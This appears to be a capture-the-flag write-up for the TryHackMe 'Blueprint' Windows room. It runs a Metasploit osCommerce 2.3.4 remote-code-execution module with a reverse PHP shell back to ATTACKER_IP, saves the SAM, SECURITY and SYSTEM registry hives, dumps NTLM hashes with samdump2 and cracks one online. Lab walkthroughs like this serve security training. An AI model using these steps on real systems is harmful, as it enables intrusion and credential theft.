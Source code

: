 # [Blueprint](https://tryhackme.com/room/blueprint)

## Hack into this Windows machine and escalate your privileges to Administrator

### "Lab" user NTLM hash decrypted

1. First scan ports with nmap to identify available services

```bash
nmap IP
```

![SCREEN01](https://github.com/user-attachments/assets/183da63e-a847-4526-bf77-9b66a3487800)

2. After exploring the services, navigate to `https://<TARGET_IP>:443`. Here we discover an `oscommerce-2.3.4` directory. Online research indicated that this version has a remote code execution vulnerability that can be exploited using Metasploit

```bash
msfconsole
use exploit/multi/http/oscommerce_installer_unauth_code_exec
show options
set URI /oscommerce-2.3.4/catalog/install
set PAYLOAD php/reverse_php
set SSL true
set RHOSTS TARGET_IP
set RPORT 443
set LHOST ATTACKER_IP
set LPORT 4444
run

whoami
```

![SCREEN02](https://github.com/user-attachments/assets/fb565cb4-1111-4d8e-b882-d2c1872c89da)

3. Navigate to the web application directory and extract the Windows registry hives containing password data

```bash
cd C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
reg.exe save hklm\sam SAM
reg.exe save hklm\security SECURITY
reg.exe save hklm\system SYSTEM
```

![SCREEN03](https://github.com/user-attachments/assets/53e640ca-22c7-4810-9b8b-5c9cd7b9cee2)

```bash
samdump2 SYSTEM SAM
```

4. Download the registry hive files from the web server by accessing `https://IP/oscommerce-2.3.4/catalog/install/includes/`

5. Once downloaded to your attack machine, use `samdump2` to extract the password hashes

```bash
samdump2 SYSTEM SAM
```

![SCREEN04](https://github.com/user-attachments/assets/e68a4936-45c0-444d-9618-07bce61fd657)

6. Copy the NTLM hash for the "Lab" user and paste it into [CrackStation](https://crackstation.net/) to decode it

![SCREEN05](https://github.com/user-attachments/assets/980c12ab-82b6-473a-96e3-00e2bf847c4d)

---

### root.txt

1. We can directly access the Administrator directory

```bash
cd C:\Users\Administrator\Desktop
dir
type root.txt.txt
```

![SCREEN06](https://github.com/user-attachments/assets/326939c1-4d75-4045-afe7-784f6af0b377)

